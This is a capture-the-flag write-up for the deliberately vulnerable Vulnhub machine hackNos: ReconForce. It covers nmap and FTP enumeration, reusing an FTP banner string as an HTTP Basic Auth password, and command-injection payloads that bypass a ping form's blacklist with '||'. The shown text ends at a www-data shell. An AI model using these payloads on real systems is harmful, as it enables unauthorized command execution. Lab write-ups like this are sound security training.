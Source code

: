 # Vulnhub | hackNos: ReconForce Writeup (In Detail)
## [+] Machine Details

| INFO | Description |
| --- | --- |
| [+] Machine Name -> | ``hackNos: ReconForce`` |
| [+] Release Date -> | ``11 Jan 2020`` |
| [+] Difficulty -> | ``Easy/Medium`` |
| [+] Download -> | [Download Link](https://www.vulnhub.com/entry/hacknos-reconforce,416/) |
| [+] Writeup By -> | ``@pwn4magic`` - `Discord : pwn4magic#8707` |
| [+] VM Maker -> | [@rahul_gehlaut](https://twitter.com/rahul_gehlaut) |
| [+] OS -> | ``GNU/Linux`` :penguin: |


## [+] Table of contents
* 0x00 Quick Summary
* 0x01 Enumeration
  * Finding Target's IP Address
  * nmap
  * FTP Enumeration / FTP Banner Grabbing
  * Web Enumeration
  * Theory (.htaccess/.htpasswd)
* 0x02 Exploitation
  * Login In / Command Injection
  
# 0x00 Quick Summary
hackNos: ReconForce was a quite easy box, took me around 1day to root it because i was using the broken version. The mistake takes place at FTP Banner, it should be `Security@hackNos` & not `Secure@hackNos`. I wasted lot of time brute forcing the HTTP Authentication, when i got the patched version i was able to root it into 10 minutes. FTP Banner provide us the HTTP Authentication password, when we login in we can see a ping function, we need to bypass it & take command injection. Then we have to do 2 privilege escalations, very easy ones.

# 0x01 Enumeration
## Finding Target's IP Address
Let's find target's IP address, i always use `arp-scan`.
```
[root@pwn4magic]:~# arp-scan --localnet | grep "PCS Systemtechnik GmbH"
192.168.1.2	08:00:27:0c:93:5f	PCS Systemtechnik GmbH
```

## nmap
```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# nmap -sC -sV -p- -oN nmap 192.168.1.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-18 16:18 EET
Nmap scan report for thepurge (192.168.1.2)
Host is up (0.00020s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6f:96:94:65:72:80:08:93:23:90:20:bc:76:df:b8:ec (RSA)
|   256 6f:bb:49:1a:a9:b6:e5:00:84:19:a0:e4:2b:c4:57:c4 (ECDSA)
|_  256 ce:3d:94:05:f4:a6:82:c4:7f:3f:ba:37:1d:f6:23:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Recon_Web
MAC Address: 08:00:27:0C:93:5F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see, 3 open ports (21, 22, 80). Let's start by enumerating FTP.

## FTP Enumeration / FTP Banner Grabbing
  
FTP Anonymous is allowed, let's try it out.
```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# ftp 192.168.1.2
Connected to 192.168.1.2.
220 "Security@hackNos".
Name (192.168.1.2:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        117          4096 Jan 06 06:25 .
drwxr-xr-x    2 0        117          4096 Jan 06 06:25 ..
226 Directory send OK.
ftp> 
```

Nothing useful there. But we can see at FTP banner this `Security@hackNos`, might be useful later. We can also do banner grabbing using netcat!

```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# nc -v 192.168.1.2 21
thepurge [192.168.1.2] 21 (ftp) open
220 "Security@hackNos".
```

## Web Enumeration

Site doesnt have something really useful, i even tried stego on the photos. But if we check the source code we can see an interesting path. `/5ecure`

```html
<div class="button">
<a href="5ecure/" class="btn">TroubleShoot</a>>
</div>
```

![httpauth](https://i.imgur.com/KvMcjF8.png)

HTTP Authentication, let's see some background theory.

## Theory (.htaccess/.htpasswd)

We can password protect our webpages, using the `.htaccess` & `.htpasswd`.
Let's reverse what `hackNos: ReconForce` maker did.

He created a `.htaccess` file in the folder he wants to protect -> `/5ecure`
```
AuthType Basic
AuthName "Recon Security"
AuthUserFile /some/dummy/path/.htpasswd
Require valid-user
```

The `.htpasswd` file contain our password salt, for example `admin:$apr1$rimxjkte$UwZbBDO3ybQNtT/7BJ/Kf0`. In our case because is an easy/medium machine, username will be admin.

# 0x02 Exploitation
## Login In / Command Injection

FTP banner provide us a really interesting string `Security@hackNos`, let's try to use it as password on HTTP Authentication.

![image](https://i.imgur.com/zIeux5N.png)

We're in & we can see a ping function, we all know in CTF world ping -> CI haha. I tried some basics command injections.

```
127.0.0.1; whoami
127.0.0.1& whoami
127.0.0.1&& whoami
```

Nothing really work, there is a filter in the script i guess. A blacklist that blocks `&&` - `&` - `;`, we can bypass that by using `||`.

```
127.0.0.1|| whoami
```

We have command injection! `www-data`
